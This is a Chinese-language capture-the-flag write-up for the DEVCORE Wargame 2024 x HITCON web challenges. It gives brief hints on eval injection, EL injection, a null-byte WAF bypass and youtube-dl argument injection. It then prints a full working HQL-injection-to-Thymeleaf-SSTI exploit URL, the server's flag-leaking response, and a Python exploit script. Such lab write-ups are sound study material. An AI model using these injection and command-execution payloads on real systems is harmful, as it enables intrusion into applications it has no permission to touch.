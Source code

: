 # DEVCORE Wargame 2024 x HITCON

## Supercalifragilisticexpialidocious

`create_function` 內部也是 eval，所以可以直接插爛它

參考官方解：https://github.com/DEVCORE-Wargame/HITCON-2024/tree/main/challenges/Supercalifragilisticexpialidocious/solve

## Expressionism

注入點：`<spring:message code="life.quotes.${id}" />` (id 可控)

插個 `${sessionScope.FLAG}` 或是 `${FLAG}` 應該都可以

## Kurapika

單純的上傳漏洞 + WAF

常見的WAF招踹一輪即可發現，multipart 的 boundary 插個 null byte 就能過了

## VArchive

youtube-dl 的 argument injection

payload 忘記留了，跟官方解不太一樣，所以方法不只一種就是了

## Wall..Maria

題目出壞

改 multipart 參數放 GET 就可以繞過檢查了

## Spring

兩個考點:

1. HQL Injection (會用到 Java constant)
2. Thymeleaf SSTI (要簡單小繞一下)

`org.apache.logging.log4j.util.Chars.QUOTE` 等同單引號，可以造成 HQL 和實際跑 MySQL 時不一致

最後透過 UNION 讓回傳值可控，來插入 Thymeleaf SSTI Payload

```
http://web.ctf.d3vc0r3.tw:10101/a'*length('a')*org.apache.logging.log4j.util.Chars.QUOTE%20and%20'and%202=3%20union%20select%201,0x5f5f2a7b6e65772e6a6176612e6c616e672e537472696e67286e65772e6a6176612e6c616e672e50726f636573734275696c64657228272f72656164666c6167272c202767697665272c276d65272c27746865272c27666c616727292e737461727428292e676574496e70757453747265616d28292e72656164416c6c42797465732829297d5f5f3a3a2e,%22spring%22--%20'='a
```

->

```
{"timestamp":"2024-08-23T18:31:12.625+00:00","status":500,"error":"Internal Server Error","message":"Error resolving template [DEVCORE{S1mPl3_4nd_r06Us7_JAVA_3c0syS7em}], template might not exist or might not be accessible by any of the configured Template Resolvers","path":"/a'*length('a')*org.apache.logging.log4j.util.Chars.QUOTE%20and%20'and%202=3%20union%20select%201,0x5f5f2a7b6e65772e6a6176612e6c616e672e537472696e67286e65772e6a6176612e6c616e672e50726f636573734275696c64657228272f72656164666c6167272c202767697665272c276d65272c27746865272c27666c616727292e737461727428292e676574496e70757453747265616d28292e72656164416c6c42797465732829297d5f5f3a3a2e,%22spring%22--%20'='a"}
```

附一下腳本：

```python
#!/usr/bin/env python3

import requests
from urllib.parse import quote

HOST, PORT = 'web.ctf.d3vc0r3.tw', '10101'

def fuck(s):
    res = "0x"
    for i in s:
        res += "{}".format(hex(ord(i)))[2:]
    return res

_payload = "__*{new.java.lang.String(new.java.lang.ProcessBuilder('/readflag', 'give','me','the','flag').start().getInputStream().readAllBytes())}__::."

pl = f'http://{HOST}:{PORT}/' + "a'*length('a')*org.apache.logging.log4j.util.Chars.QUOTE%20and%20'and%202=3%20union%20select%201," +fuck(_payload.replace('\n', '')) + ",%22spring%22--%20'='a"

print(len(pl), pl)

print(requests.get(pl).text)
```
